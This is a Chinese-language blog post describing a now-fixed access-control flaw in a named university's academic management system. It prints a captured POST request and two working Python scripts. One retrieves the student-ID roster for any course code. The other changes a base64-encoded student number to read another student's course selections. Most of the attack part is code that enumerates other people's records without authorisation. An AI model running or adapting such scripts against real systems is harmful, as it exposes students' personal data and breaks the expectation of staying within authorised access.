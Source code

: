 ```yaml
---
layout: post
title:  "[漏洞已修复]关于学校教务系统的白给漏洞的综合利用"
date:   2019-06-20
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Blue-whale,Life]
tags: [web]
icon: icon-html
---
```


众所周知，学校的教务系统没有钓鱼网站结实。

# 关于漏洞的发现

在使用教务系统时无意间按F12键并点击了检索，发现该处的代码中有学号，自然想到修改

修改为别人学号后可以查看别人的选课信息和成绩

显然，本地发送给服务器的查询请求中包含了需要查询的学号信息

至于学号的获取，网页右上角有“在线消息”，此处无需权限即可查看**任意**选课号下对应的选课名单（现在已修复为限制特定权限级别查询）

# 关于编写脚本获取选课名单

在*在线消息*中输入任意选课号进行抓包，POST方法的HTTP请求包如下:

```tcl
POST /taglib/DataTable.jsp?tableId=3241&type=skbjdm HTTP/1.1
Host: jwgl.ouc.edu.cn
Content-Length: 249
Cache-Control: max-age=0
Origin: http://jwgl.ouc.edu.cn
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp
Accept-Language: zh-CN,zh;q=0.9
Cookie: LOGIN=; UM_distinctid=; SCREEN_NAME=; JSESSIONID=08DA7D4BDD750E8576F21CD46475F0E1.kingo
Connection: close

hidOption=&hidKey=&userId=&roletype=&jsrdm=&jsrmc=&nj=2019&yhdm=&emptyFlag=0&xm=&xn=2018&xq=2&style=SKBJDM&bmdm=&gradeController=on&nj2=2019&yxbdm=&sel_role=ADM000&xnxq=2018-2&sel_skbjdm=02003040&queryInfo=&_xxbt=&xxbt=&_xxnr=&xxnr=&fjmc=
```

保护个人隐私，相关个人信息未显示

经过试验发现，该请求包中的cookies只有`Jsessionid`有意义，POST的数据中`xnxq`和`sel_skbjdm`对应**学期**和**选课号**，于是编写脚本即可

值得注意的是此处应用了`referer`来（反初级爬虫？），需要在`header`中额外添加

```python
#coding=utf-8
import requests
import re
url = "http://jwgl.ouc.edu.cn/taglib/DataTable.jsp?tableId=3241&type=skbjdm"
data = {
    "xnxq": "2019-0",
    "sel_skbjdm": "02003001"
}
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/common/popmsg/popmsg.sendOnlineMessage.jsp"
s  = requests.Session()
s.headers.update({'referer': refer})
response = s.post(url, data = data, cookies = cookie)
content = response.text
str1 = re.findall(r"name='yhxh'  align='left' >(.+?)</td>", content)
print str1
```

# 关于按学号获取选课清单

直接检索个人选课信息，抓包发现请求的地址为`http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params=*****`

后面的一串字符经过**BASE64**解码发现是`xn=2018&xq=2&xh=（学号）`

直接编写GET请求脚本即可

```python
import requests
import base64
import re
url0 = 'http://jwgl.ouc.edu.cn/wsxk/xkjg.ckdgxsxdkchj_data.jsp?params='
name = 'xn=2018&xq=2&xh=（学号）'
url1 = base64.b64encode(name)
url = url0 + url1
s  = requests.Session()
cookie = {
	"JSESSIONID": "08DA7D4BDD750E8576F21CD46475F0E1.kingo"
}
refer = "http://jwgl.ouc.edu.cn/student/xkjg.wdkb.jsp?menucode=JW130416"
s.headers.update({'referer': refer})
r = s.get(url, cookies=cookie)
str0 = r.text
str1 = re.findall(r"name=\"skbjdm\" style=\"display: none\">(.+?)</td>", str0)
str2 = re.findall(r"right;\">(.+?)</td>", str0)
print str1
print str2
```

注：此漏洞已修复，现在修改学号GET选课清单已经失效

# 综合利用

把这两个脚本合在一起即可实现科学选课

但是漏洞修复了

想要再进行科学选课的话……

提权从入门到开除，请

